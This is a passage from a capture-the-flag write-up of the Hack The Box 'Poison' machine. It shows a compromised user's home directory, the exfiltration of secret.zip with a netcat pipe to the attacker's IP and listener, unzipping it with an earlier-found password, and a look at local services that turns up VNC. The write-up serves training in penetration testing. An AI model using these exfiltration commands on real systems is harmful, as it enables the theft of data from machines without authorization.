 # Shell as root 
Looking in `charix`'s home directory, we see a `secret.zip` file. The `.zip` file was password protected so I needed to get it off the compromised host and onto my localhost.
```shell
charix@Poison:~ % ls -lah
total 48
drwxr-x---  2 charix  charix   512B Mar 19  2018 .
drwxr-xr-x  3 root    wheel    512B Mar 19  2018 ..
-rw-r-----  1 charix  charix   1.0K Mar 19  2018 .cshrc
-rw-rw----  1 charix  charix     0B Mar 19  2018 .history
-rw-r-----  1 charix  charix   254B Mar 19  2018 .login
-rw-r-----  1 charix  charix   163B Mar 19  2018 .login_conf
-rw-r-----  1 charix  charix   379B Mar 19  2018 .mail_aliases
-rw-r-----  1 charix  charix   336B Mar 19  2018 .mailrc
-rw-r-----  1 charix  charix   802B Mar 19  2018 .profile
-rw-r-----  1 charix  charix   281B Mar 19  2018 .rhosts
-rw-r-----  1 charix  charix   849B Mar 19  2018 .shrc
-rw-r-----  1 root    charix   166B Mar 19  2018 secret.zip
-rw-r-----  1 root    charix    33B Mar 19  2018 user.txt
```
A good way to do that is by utilizing netcat like so:
```shell
# On the compromised host:
charix@Poison:~ % cat secret.zip | nc 10.10.14.8 1234

# On your local host
┌──(root㉿commando)-[/mnt/c/Users/bri5ee/Documents/htb/poison]
└─# nc -l -p 1234 > secret.zip
```
This will transfer the contents of `secret.zip` over netcat to your IP and port that you are listening on and direct it to a file called `secret.zip`. We can validate this by checking the MD5/SHA256 hash of it, but for me I just ran `file` against it to see if it interpreted as a `zip` file.
```shell
┌──(root㉿commando)-[/mnt/c/Users/bri5ee/Documents/htb/poison]
└─# file secret.zip
secret.zip: Zip archive data, at least v2.0 to extract, compression method=store
```
And it is! So the data exfiltration worked. Immediately I thought of using `zip2john` which is a tool that would allow us to test a bunch of passwords against this `.zip` file. However, why don't we just try the password we got from earlier:
```shell
┌──(root㉿commando)-[/mnt/c/Users/bri5ee/Documents/htb/poison]
└─# unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret
```
And... it worked. So the file that came out of it was named `secret`. Running `file` against it, I still have no idea about what it's doing or what it is. However, I decided to take a deeper look into things being hosted on the compromised host and saw `VNC` is running. Virtual Network Computing ("VNC") is a protocol that is used for graphical desktop-sharing, similar to the Remote Desktop Protocol ("RDP") you'd typically see in Windows environments.
```shell
charix@Poison:~ % sockstat -4l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
www      httpd      768   4  tcp4   *:80                  *:*
www      httpd      765   4  tcp4   *:80                  *:*
root     sendmail   702   3  tcp4   127.0.0.1:25          *:*
www      httpd      686   4  tcp4   *:80                  *:*
www      httpd      685   4  tcp4   *:80                  *:*
www      httpd      684   4  tcp4   *:80                  *:*
www      httpd      683   4  tcp4   *:80                  *:*
www      httpd      682   4  tcp4   *:80                  *:*
root     httpd      670   4  tcp4   *:80                  *:*
```